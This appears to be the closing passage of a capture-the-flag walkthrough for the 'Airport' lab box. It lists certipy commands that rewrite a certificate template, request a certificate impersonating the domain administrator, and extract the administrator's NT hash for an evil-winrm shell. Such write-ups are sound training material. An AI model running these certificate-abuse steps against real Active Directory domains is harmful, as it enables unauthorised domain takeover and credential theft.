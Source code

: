 ```bash
certipy template -u matthew@airport.htb -p 'airforce1' -template Airport-CA -save-old -dc-ip 192.168.0.102
```

![image-20240329172915331](C:\Users\Ruy\AppData\Roaming\Typora\typora-user-images\image-20240329172915331.png)

After that, we will request a PFX file, trying to impersonate the Administrator account:

```bash
certipy req -u matthew@airport.htb -p 'airforce1' -ca airport-DC01-CA -target DC01.airport.htb -template Airport-CA -upn administrator@airport.htb -dc-ip 192.168.0.102
```

![image-20240329173051657](C:\Users\Ruy\AppData\Roaming\Typora\typora-user-images\image-20240329173051657.png)

To finish this, we'll use the auth command to get the NT hash for administrator:

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.0.102
```

![image-20240329173146266](C:\Users\Ruy\AppData\Roaming\Typora\typora-user-images\image-20240329173146266.png)

Finally, we can use this hash with the tool `evil-winrm` to get an interactive shell as administrator and to be able to read root flag:

![image-20240329173349209](C:\Users\Ruy\AppData\Roaming\Typora\typora-user-images\image-20240329173349209.png)

That was the Airport box! Hope you liked it!

